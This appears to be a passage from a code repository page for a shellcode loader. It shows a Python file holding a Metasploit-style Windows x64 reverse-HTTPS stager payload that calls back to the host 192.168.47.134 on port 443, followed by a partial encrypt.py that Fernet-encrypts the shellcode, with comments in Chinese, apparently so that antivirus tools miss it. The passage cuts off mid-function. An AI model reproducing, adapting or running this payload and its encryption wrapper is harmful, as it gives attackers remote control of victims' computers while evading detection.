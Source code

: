 ```python
shellcode = b'\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xe9\x93\x00\x00\x00\x5a\x48\x89\xc1\x41\xb8\xbb\x01\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x79\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x32\xc0\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\xba\x1f\x00\x00\x00\x6a\x00\x68\x80\x33\x00\x00\x49\x89\xe0\x41\xb9\x04\x00\x00\x00\x41\xba\x75\x46\x9e\x86\xff\xd5\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xb3\xe9\xe4\x01\x00\x00\xe8\x82\xff\xff\xff\x2f\x6a\x61\x4e\x44\x00\x39\x21\xfe\xc0\x2c\x5b\x03\x00\xd3\x8c\x97\xd2\x88\xbb\x37\x59\x72\xc6\x45\x9e\x06\xf9\x7d\x11\xad\x96\x31\xbc\x5d\x44\x7e\xa4\x44\xbf\x0b\x7b\x5b\x11\x75\x8a\x26\x4e\xd3\xc0\xa9\x3a\x6b\x3b\x1f\x30\xf1\x6e\x3e\x83\xb2\x4a\xf2\x27\x89\xd1\x2b\x89\x0c\x8a\x9a\x97\x20\x8f\x46\x87\x4b\x59\x13\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x31\x30\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x36\x2e\x32\x3b\x20\x57\x69\x6e\x36\x34\x3b\x20\x78\x36\x34\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x36\x2e\x30\x3b\x20\x4d\x44\x44\x43\x4a\x53\x29\x0d\x0a\x00\x74\x9f\xc4\x01\x81\xa2\xa3\x3d\x3f\x69\xa0\x16\xe9\xb0\x1c\xcb\x6b\x43\x0a\xde\xea\x51\xc2\x57\xaf\x0b\xb4\x5b\xf3\xd8\x91\xb5\x60\xcf\xcc\x2c\x01\x8e\x4f\xc9\x2d\x5f\x31\x40\xd7\xe3\xb4\x15\xa2\x7e\xbe\x2e\x3d\x56\x96\xbb\x3c\x61\x6d\x1a\x86\xcd\x8c\xa0\xb2\x66\xc2\xa2\x58\xfd\xa3\x8c\x04\x71\x76\x0b\x29\x9c\x73\xa6\x44\x73\xfd\x46\x4a\xb8\xe6\xac\xfd\x2a\x91\x32\x4f\x5a\x61\x25\xc0\xdb\xa1\x2d\x2d\x2f\x17\x5a\x50\xa9\x12\xb3\x1d\x25\x01\xfd\xc4\xd2\xf8\x18\x4d\x0a\x4d\xf7\xdf\xc2\x9d\x1b\x46\xfb\xb1\x50\x8d\xc5\xc6\x32\xa8\x78\xf6\x1f\xb4\xbe\x7e\xc5\xb2\x16\xac\xe6\x99\x8f\x49\x18\xd7\x2f\xfb\xe5\xe4\xeb\x68\x8e\x57\x27\x99\x8d\x43\xc5\x31\x43\x79\xbe\x6d\xc2\xed\xe9\x89\xb4\x5b\x2e\x9f\xf7\x31\xb8\x9f\x24\xce\xf6\xd4\xc2\xf3\xa3\x92\xe9\xdf\xdd\xfb\xc2\x42\x93\xb6\x21\xdf\x71\xc1\xb3\xf8\x28\xcd\xcc\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x7f\xfd\xff\xff\x31\x39\x32\x2e\x31\x36\x38\x2e\x34\x37\x2e\x31\x33\x34\x00\x00\x01\x86\xa0'

with open('shellcode.txt','wb') as f:
    f.write(shellcode)
```



#### encrypt.py		

```python
#对静态文件进行加密
from cryptography.fernet import Fernet

def EncryptTXT(filename):
    with open(filename,'rb') as file:
        key = Fernet.generate_key()
        f = Fernet(key)
        enc_pay = f.encrypt(bytes(bytearray(file.read())))

    with open("Encrypt_shellcode.txt",'w+') as file:
        file.write(enc_pay.decode())
        #print('加密完成,加密后的文件为Encrypt_shellcode.txt,加密key={}'.format(key))
    return key

def EncryptICO(filename):
    with open(filename, 'rb') as file:
        key = Fernet.generate_key()
```